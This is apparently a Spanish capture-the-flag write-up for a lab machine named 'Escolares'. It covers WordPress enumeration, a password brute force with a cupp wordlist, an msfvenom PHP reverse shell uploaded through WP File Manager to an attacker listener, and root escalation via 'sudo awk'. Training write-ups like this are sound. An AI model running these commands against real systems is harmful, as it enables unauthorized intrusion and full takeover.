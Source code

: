 # Escolares

* Máquina **atacante** -> 172.17.0.1
* Máquina **objetivo** -> 172.17.0.2 | Linux :penguin:

### Escaneo de puertos

Realizamos un escaneo de puertos con *nmap* para ver puertos abiertos de la máquina **objetivo**:
```shell
nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 172.17.0.2
```
![escan](/Capturas/2024-12-13_17-37.png)

Encontramos abiertos los puertos **22** y **80**.

Al ver lo que tenemos corriendo por el puerto **80**, observamos una página web de una universidad de ciberseguridad sin nada interesante al echarle un vistazo por encima:

![uniciber](/Capturas/2024-12-13_17-42.png)

Al mirar el código fuente de la página, encontramos comentado lo que puede ser un directorio interesante:

![comment](/Capturas/2024-12-13_17-42_1.png)

Cuando entramos en ese directorio, encontramos información que nos puede servir más adelante:

![prof](/Capturas/2024-12-13_17-45.png)

### Fuzzing web

Buscamos más directorios que nos puedan facilitar la intrusión a la máquina **objetivo**. Para ello, hacemos **fuzzing web** con *gobuster*:
```shell
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .txt,.py,.php,.sh
```
![fuzz](/Capturas/2024-12-13_18-13.png)

Encontramos que hay un **wordpress** corriendo, así que realizamos **fuzzing web** de *172.17.0.2/wordpress* para ver si podemos acceder a él de alguna manera:
```shell
gobuster dir -u http://172.17.0.2/wordpress -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .txt,.py,.php,.sh
```

### Wordpress

Antes de seguir investigando el **wordpress**, para que podamos ver la página en condiciones, necesitamos apuntar a **escolares.dl** en */etc/hosts*:

![etchosts](/Capturas/2024-12-13_18-32.png)

Ahora, si nos vamos a la página principal, vemos que se ve perfectamente:

![pagprin](/Capturas/2024-12-13_18-35.png)

Ya podemos volver a los resultados de *gobuster* sobre wordpress, y ver si hay algo interesante. Si accedemos a *172.17.0.2/wp-login.php* descubrimos un panel de login de wordpress:

![login](/Capturas/2024-12-13_18-43.png)

Teniendo esto delante, vamos a buscar usuarios con *wpscan*:
```shell
wpscan --url http://172.17.0.2/wordpress --enumerate u,vp
```
![wpscan](/Capturas/2024-12-13_18-45.png)

Nos detecta la existencia del usuario **luisillo**, que es el mismo que encontramos en */profesores.html*. Por lo que viendo la relación, crearemos un diccionario con *cupp* de toda la información de Luis proporcionada en esa dirección y probaremos a realizar un ataque de fuerza bruta de contraseñas:
```shell
cupp -i
```
![cupp](/Capturas/2024-12-13_18-48.png)

Una vez tenemos el diccionario, realizamos el ataque de fuerza bruta al panel de login otra vez, pero sobre la contraseña:
```shell
wpscan --url http://172.17.0.2/wordpress --passwords luis.txt --usernames luisillo
```
![luisillocomunica](/Capturas/2024-12-13_18-50.png)

Como resultado, tenemos el usuario **luisillo** con contraseña **Luis1981**.

Al entrar al **wordpress** como admin, nos fijamos que hay un plugin llamado **WP File Manager** que nos permite subir archivos. Por lo que nos colocamos en el directorio */wordpress/wp-content/uploads* y subimos un archivo malicioso que crearemos con *msfvenom* con el que nos haremos una **reverse shell** mientras nos ponemos a la escucha con *netcat*:
```shell
msfvenom -p php/reverse_php LHOST=172.17.0.1 LPORT=443 -f raw > payload.php
```
```shell
nc -nlvp 443
```
![uploads](/Capturas/2024-12-13_18-54.png)

Cuando ya está subido, nos vamos al directorio *172.17.0.2/wordpress/wp-content/uploads* y ejecutamos el archivo:

![archivo](/Capturas/2024-12-13_18-58.png)

![conexxion](/Capturas/2024-12-13_18-59.png)

Estabilizamos la conexión y realizamos un tratamiento de la tty.

### Escalada de privilegios

Investigamos todos los directorios a los que tenemos acceso con el usuario que tenemos (www-data). Hasta que encontramos un archivo sospechoso llamado **secret.txt** en */home* que contiene lo que parece la contraseña del usuario **luisillo**:

![secret](/Capturas/2024-12-13_19-03.png)

Así que probamos a entrar a dicho usuario con la contraseña proporcionada:

![su](/Capturas/2024-12-13_19-04.png)

Ahora realizamos un **sudo -l** para ver si podemos ejecutar algo como algun usuario con permisos superiores:

![sudo-l](/Capturas/2024-12-13_19-06.png)

Podemos ejecutar **awk** como **root**, por lo que escalaremos privilegios a través de él con el comando:
```shell
sudo awk 'BEGIN {system("/bin/sh")}'
```
![root](/Capturas/2024-12-13_19-07.png)

Somos root! :triangular_flag_on_post: